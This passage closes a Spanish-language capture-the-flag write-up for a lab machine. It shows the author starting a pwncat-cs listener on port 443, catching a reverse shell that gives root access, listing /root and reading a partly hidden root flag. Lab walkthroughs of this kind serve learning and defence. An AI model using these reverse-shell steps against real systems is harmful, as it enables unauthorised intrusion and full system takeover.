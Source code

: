 De esta forma podemos ejecutar comandos a nivel de sistema.
![Write-up Image](images/Screenshot_11.png)

Para mayor comodidad me puse en escucha con `pwncat-cs` por el puerto 443 y me envié una reverse shell.
```console
pwncat-cs -lp 443
```

Nos enviamos la reverse shell.
![Write-up Image](images/Screenshot_12.png)

```console
17:33:27] received connection from 192.168.2.8:45732                                                                                                                                                                           bind.py:84
[17:33:28] 192.168.2.8:45732: registered new host w/ db                                                                                                                                                                     manager.py:957
(local) pwncat$
(remote) root@manager:/root# id
uid=0(root) gid=0(root) groups=0(root)
(remote) root@manager:/root# ls -la
total 32
drwx------  4 root root 4096 Nov 29 14:31 .
drwxr-xr-x 18 root root 4096 Nov 29 11:52 ..
lrwxrwxrwx  1 root root    9 Apr 23  2023 .bash_history -> /dev/null
-rw-------  1 root root 3526 Jan 15  2023 .bashrc
drwx------  3 root root 4096 Nov 29 14:18 .gnupg
drwxr-xr-x  3 root root 4096 Nov 29 14:30 .local
-rw-------  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   66 Nov 28  2023 .selected_editor
-r--------  1 root root   33 Nov 29 14:31 root.txt
```

Podemos leer la flag de `root`
```console
(remote) root@manager:/root# cat root.txt
a63b115640f6466...
```

¡Y ya estaría!

Happy Hacking! 🚀